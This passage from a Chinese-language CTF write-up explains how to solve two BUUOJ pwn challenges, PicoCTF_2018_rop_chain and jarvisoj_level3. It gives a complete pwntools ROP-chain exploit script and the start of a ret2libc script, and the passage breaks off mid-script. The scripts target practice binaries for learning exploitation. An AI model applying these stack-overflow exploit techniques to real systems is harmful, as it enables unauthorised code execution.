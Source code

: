 2. main函数中给了一个栈溢出，程序由后门函数flag，但是条件是 **( win1 && win2 && a1 == 0xDEADBAAD )** ，全局变量win1、win2可以通过程序给的函数调用赋值，a1需要通过栈传递参数。

   ![image-20240603145100229](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031451291.png)

   ![image-20240603145114756](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031451841.png)

3. 两个全局变量赋值函数win_function1和win_function2，重点观察win_function2，他的参数a1在栈上的位置（看汇编）可以看到偏移 **arg_0** 为+8，即相对于bp往后8位，flag中a1的参数同理：

   ![image-20240603145207427](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031452503.png)

   ![image-20240603145309893](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031453962.png)

   ![image-20240603145213405](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031452455.png)

4. EXP，进入win_function2函数后bp寄存器会指向 **win_function2**所在的地址bp+8刚好指向 *8win_function2_num**，flag函数中同理：

   ```python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote("node5.buuoj.cn",29642)
   elf = ELF('./PicoCTF_2018_rop_chain')
   p.recvuntil(b'Enter your input> ')
   win_function1 = 0x080485CB
   win_function2 = 0x080485D8
   win_function2_num = 0xBAAAAAAD
   flag = 0x0804862B
   flag_num = 0xDEADBAAD
   #其中flag是win_function函数调用后的返回值
   payload = b'a'*(0x18+4)+p32(win_function1)+p32(win_function2)+p32(flag)+p32(win_function2_num)+p32(flag_num)
   
   p.sendline(payload)
   p.interactive()
   ```

   ![image-20240603145643830](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031456916.png)

## [jarvisoj_level3](https://buuoj.cn/challenges#jarvisoj_level3)

1. 栈溢出，正常的ret2libc：

   ![image-20240603161800842](https://gitee.com/poppy-qwq/cloudimage/raw/master/img/202406031618909.png)

2. EXP：

   ```python
   from pwn import *
   from LibcSearcher import *
   
   context(os='linux', arch='amd64', log_level='debug')
   
   p=remote("node5.buuoj.cn",25516)
   elf=ELF('./level3')
   libc = ELF('./libc-2.23.so')
   got = elf.got['write']
   plt = elf.plt['write']
   print(hex(got),hex(plt))
   main_addr = 0x0804844B
   
   ```